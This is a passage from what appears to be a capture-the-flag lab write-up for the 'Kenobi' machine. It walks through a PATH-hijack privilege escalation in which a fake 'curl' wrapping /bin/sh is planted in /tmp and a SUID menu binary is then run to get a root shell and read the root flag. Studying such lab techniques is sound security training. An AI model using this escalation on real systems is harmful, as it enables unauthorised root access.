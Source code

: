 Let's follow the steps outlined on the task to manipulate our path so we can gain root privileges on the target.

```
kenobi@kenobi:/$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh> curl
kenobi@kenobi:/tmp$ chmod 777 curl 
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
```

<br />

Executing the file now and selecting the first option will escalate our privileges to root which we can use to read the contents of the `/root/root.txt` file.

```
kenobi@kenobi:/tmp$ /usr/bin/menu 

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
# whoami
root
# cat /root/root.txt
177**********9**********2*****02
```

<br />

We just pwned Kenobi!

<br />
